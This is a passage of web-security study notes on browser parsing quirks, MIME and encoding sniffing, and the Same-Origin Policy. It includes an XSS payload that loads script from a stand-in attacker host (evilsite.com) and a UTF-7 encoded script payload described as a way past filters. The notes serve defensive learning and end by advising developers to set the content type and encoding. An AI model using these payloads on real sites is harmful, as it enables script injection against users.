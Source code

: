 ```html
<!DOCTYPE html>
<html>
  <head>
    <title>
      Vulnerable page named <script/xss src=http://evilsite.com/my.js>
    </title>
  </head>
</html>
```

because Firefox parses the slash as a whitespace, enabling the attack.

#### Legacy Parsing

- autoclose of `<script>` tags
- autoclose of a missing angle bracket

#### Content Sniffing

##### MIME sniffing

Browser used to not only look at the `Content-Type` header that the server is passing, but also the content of the page. It leads to situation were image and text files containing HTML tags would execute as HTML.

One way modern application works against MIME sniffing is by using multiple domains (one for the app, one for uploading text/images etc)

##### Encoding sniffing

If you don't specify an encoding for an HTML document, the (mainly older) browser will try to determine it with heuristics.

If you control the way the browser decodes text, you can alter parsing.

A good example: putting UTF-7 text ihto XSS payloads
Consider the payload:
`+ADw-script+AD4-alert(1);-ADw-/script+AD4-`
This will go cleanly through HTML encoding, as there are no 'unsafe' characters.
If the browsers sniffs the encoding and switch to UTF-7, it enables the attack.

This can be an effective strategy to go over a firewall.

##### Ending note on sniffing

**ALWAYS** specify the `Mime-Type` header and the encoding for pages, so that the server and client don't have a discrepancy.

### Same-Origin Policy

Backbone of the modern web security. It is through SOP that the browser restricts security-critical features:

- domains you can contact with XMLHttpRequest
- access to the DOM across separate frames/windows
